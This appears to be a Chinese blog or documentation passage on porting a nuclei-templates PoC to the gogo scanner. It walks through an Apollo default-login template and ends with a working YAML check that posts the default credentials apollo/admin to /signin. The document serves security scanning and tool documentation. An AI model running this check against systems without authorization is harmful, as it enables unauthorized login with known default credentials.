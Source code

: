 https://github.com/projectdiscovery/nuclei-templates

大部分poc仅需简单修改即可在gogo中使用.

#### 示例  迁移apollo-login poc 到gogo

https://github.com/projectdiscovery/nuclei-templates/blob/d6636f9169920d3ccefc692bc1a6136e2deb9205/default-logins/apollo/apollo-default-login.yaml



![image-20220806183221407](D:\Programing\blog\chainreactors\拓展gogo的能力-poc篇.assets\poc-16720450429071.png)



这个poc需要进行一些删减和改动. 

1. 删除一些header信息, 并且根据gogo的指纹重新添加tags
2. 减少不必要的发包, apollo实际上只需要第一个signin的包即可确定是否成功
3. dsl在gogo中已删除, 因为dsl不是必要功能, 大部分场景都能通过正则实现, dsl只是减少复杂场景的使用难度. 因此, 我们可以把这段dsl修改为匹配固定值

#### example 1 apollo login

**step 1** 删除不必要的header, 仅保留如下信息, 并重新添加tags

需要注意的是, tags填写的是fingers中存在的指纹, 如果指纹没有识别到, 将不会自动使用poc. 需要-E poc id 强制指定
```
id: apollo-default-login

info:
  name: Apollo Default Login
  severity: high
  tags: apollo
```



**step2 and step3** 原本的poc中有两个包, 修改为一个. 最终成果

```
id: apollo-default-login

info:
  name: Apollo Default Login
  severity: high
  tags: apollo

requests:
  - raw:
      - |
        POST /signin HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded
        Origin: {{BaseURL}}
        Referer: {{BaseURL}}/signin?
        
        username={{user}}&password={{pass}}&login-submit=Login
    attack: pitchfork
    payloads:
      user:
        - apollo
      pass:
        - admin
    matchers-condition: and
    matchers:
      - type: word
        part: header
        negative: true
        words:
          -  '?#/error'
```